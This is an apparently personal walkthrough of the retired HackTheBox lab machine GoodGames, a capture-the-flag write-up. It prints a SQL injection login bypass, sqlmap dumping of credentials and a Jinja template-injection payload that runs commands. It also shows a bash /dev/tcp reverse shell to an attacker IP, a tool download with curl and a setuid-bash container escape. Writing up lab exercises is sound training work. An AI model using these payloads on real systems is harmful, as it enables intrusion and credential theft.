

## A writeup of the retired easy box from HackTheBox, GoodGames.  

First things first, lets see what ports are open by running a nmap scan.

```bash
nmap -sC -sV 10.10.11.130 -oA nmap/good_games
```

[](../images/good_games/nmap.png)

So looks like the only port open is port 80 HTTP and it looks like its a python webserver. So I went to take a look at it.  I noticed in the footer there was reference to the hostname goodgames.htb, so I added it to my /etc/hosts file.

[](../images/good_games/home.png)
  
I poked around on the website and there was nothing much of interest.  At this point I fired up burpsuite and enabled the proxy in firefox to take a look at the site.  From this I saw there was reference to /login and /signup.

[](../images/good_games/burp.png)
  
At the same time I had been running gobuster which ended up discovering the same pages 

```bash
gobuster dir -u http://goodgames.htb -w /usr/share/seclists/discovery/web-content/raft-small-words.txt -o gobuster.out
```

[](../images/good_games/gobuster.png)
  
I ended up on the /signup page and attempted to login with 
```bash admin@goodgames.htb:admin
``` 
and was taken to a page with the message ```500 Internal Server Error```. 

[](../images/good_games/500.png)
  
Sending the same request through burpsuite I tried to check for some basic SQL injection on the email address:

```bash
email=admin'or 1 = 1 -- -&password=adwadw
```
Success.

[](../images/good_games/sql_injection.png)
  
With confirmed sql injection I saved the request from burp and passed it to sqlmap and dumped the users table.

```bash
sqlmap -r test.req --batch --dump --threads 10
```
  
[](../images/good_games/sqlmap.png)

[](../images/good_games/dump.png)
  
So I had some credentials for the admin account but the password appears to be hashed.  I could have tried to crack the hash using hashcat but I always like to check [crackstation](https://crackstation.net/) in case I can get an easy win if it has been cracked previously.

[](../images/good_games/crackstation.png)
  
With the credentials 

```bash
admin@goodgames.htb:superadministrator
```` 
I logged in.  

[](../images/good_games/logged_in_admin.png)
  
After clicking around I didn't find anything of value until I noticed the cog in the top right corner of the page. 
Clicking the link took me to a page which failed to load, but allowed me to see another hostname to add to my /etc/hosts file `internal-administration.goodgames.htb`.

I was taken to a login page and wondered if the administrator has re-used the same password.  

[](../images/good_games/internal_login.png)
  
[](../images/good_games/internal_dashboard.png)
  
Yup I was logged in.  A great example of why you should not re-use passwords. I poked around at the application and found the user settings page.  As the server was running python I checked for SSTI vulnerabilties, as I guessed it could be using a templating engine such as jinja.

[](../images/good_games/ssti.png)
  
[](../images/good_games/ssti_success.png)

As you can see after entering the payload 

\{\{7*7\}\}

for the full name, upon saving this the templating engine has interpreted this as 49.  So we have a SSTI vulnerability we can exploit.  

After heading over to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) which is a great resource and within the SSTI section I found some payloads which could potentially give us RCE or remote code execution. 

I used the payload 

\{\{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()\}\}

and entered a date of birth and phone number and hit save. 

[](../images/good_games/ssti_id.png)

As you can see from the username on the right of the page it is showing we have the result from the `id` command, which tells us we are the root user and proves we have code execution. 

So now it was time to leverage this code execution to get a reverse shell on the server.  With the payload 

\{\{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.36/9001 0>&1"').read()\}\}

While also setting up my netcat listener on my kali machine

```bash
nc -lvnp 9001
```

[](../images/good_games/rev_shell.png)
  
After submitting this request the page hangs, which is always a good sign. I switched back to the terminal where I had set up my listener and:
  
[](../images/good_games/rev_shell_success.png)
  
I now had a reverse shell which what appeared to be the root user.  I upgraded and stabilised my shell with 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
``` 
and then ctrl+z to background the session followed by:

```bash
stty raw -echo; fg
``` 
enter enter.  Then so I could clear my terminal 

```bash
export TERM=xterm
``` 

I found the `/home/augustus` directory and the user.txt file with the user flag.  

But after looking around it became apparent I was not on the host machine.  It appeared I was inside a docker instance.  But the Augustus user was not mentioned in the `/etc/passwd` file which meant it must be a user on the host machine. 

I then downloaded and used a tool [deepce](https://github.com/stealthcopter/deepce) which allowed me to gather some information about the docker instance I was currently inside.  I downloaded the latest version, created a python webserver on my attack machine 

```bash
python3 -m http-server 8000
``` 
and transferred it to the victim machine by using curl on the victim machine.

```bash
curl http://10.10.14.36:8000/deepce.sh
```

[](../images/good_games/deepce.png)
  
[](../images/good_games/deepce_results.png)
  
From the results I could see a potential IP for the host machine of `172.19.0.1`.  I could have tried to enumerate which ports were open on this IP but I thought I would try my luck with SSH and wondered if the admin had reused the same password again. Surely not...

[](../images/good_games/ssh_success.png)

Wow.  I have learnt while doing other machines that reuse of password is such a common vulnerability and is always worth a shot. 

At this point I got a little stuck with the privilege escalation part of the machine.  I ran LinPeas on the host machine and didn't get anything interesting.  

I checked all the usual config files and found some secret_keys for the DB and confirmed the hashed password I had found earlier was there.  

After a while I realised that as I was root on the docker container, if I could run a binary with root privileges as Augustus and retain root privileges it would get me root on the host machine too. 

So I thought the easiest way to do this would be to copy the legitimate `/bin/bash` file on the host machine to `/home/augustus` directory.  I then switched back to the root user within the docker container and set ownership of `bin/bash` as root. And made the file a setuid executable.

`chown root:root bash`

`chmod +s ./bash`

[](../images/good_games/root_own_bash.png)
  
[](../images/good_games/setuid_bash.png)
  
I then logged back into SSH with augustus and ran `./bash -p` to retain privileges.

[](../images/good_games/priv_esc.png)
  
From there I was able to access `/root/root.txt` for the system flag.  And that was the box.  

I found the first part of the box really fun and got to exploit some common web vulnerabilities.  

The privilege escalation path was not something I have had to do before (escape from a docker container) but was really fun and interesting and I have certainly learnt a few new tricks and technniques. 

Thank you to the creator TheCyberGeek for the machine.
